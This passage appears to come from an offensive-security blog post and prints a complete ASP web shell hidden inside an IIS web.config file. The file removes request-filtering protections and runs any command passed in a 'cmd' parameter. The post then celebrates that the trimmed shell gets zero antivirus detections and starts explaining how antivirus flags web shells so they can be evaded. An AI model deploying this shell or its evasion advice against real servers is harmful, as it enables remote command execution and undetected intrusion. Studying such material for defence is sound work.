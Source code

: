 {% highlight visual basic %}
<?xml version="1.0" encoding="UTF-8"?><configuration><system.webServer><handlers accessPolicy="Read, Script, Write"><add name="new_policy" path="*.config" verb="GET" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /></handlers><security><requestFiltering><fileExtensions><remove fileExtension=".config" /></fileExtensions><hiddenSegments><remove segment="web.config" /></hiddenSegments></requestFiltering></security></system.webServer><appSettings></appSettings></configuration>
<!–-
<% 

Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)

%>
{% endhighlight %}


```
And voila.. we have a simple web shell:

![post02-02](/images/post02-02.png)

But wait, are we safe to use this code already? 
Won't AV solutions flag us? **Yes** and **No**! 

Running the original code against [VirusTotal results on 15](https://www.virustotal.com/gui/file/06d9ff9671a3a5fb180d7337bddfc0119fd449d14b7ebc3a789298147b22bfaa/detection) detections but [ours a big 0](https://www.virustotal.com/gui/file/a630bfe24837c208b439a8f4876ae1013a0ba4cb7f1bdf270fc9428a6d8b2007/detection). 

**No detection at all!**

![post02-03](/images/post02-03.png)

**How, you ask?** 

![](https://media.tenor.com/images/9f005edb649e847cc9250fbce91d4b23/tenor.gif)

A detection on this level may be due to a couple of factors that will vary depending on the AV running on the host. 

We extracted only the essential part of the original web shell, which means that the detections were probably focusing on the whole file (generally done by looking at the file hash) or specific parts of it (like a specific string contained on that script), as an AV would do with other forms of "malware".

### How AV detects your Web Shell

You may find cases where AVs will flag your file if you carry something as simple as a string called "Mimikatz" to the combination of specific functions, file reputation and even run our file in some cloud sandbox. In the end of the day, security solutions won't ~~or shouldn't~~ just simply flag your file because it uses "WSCRIPT.SHELL" or has a string called "cmd". 

```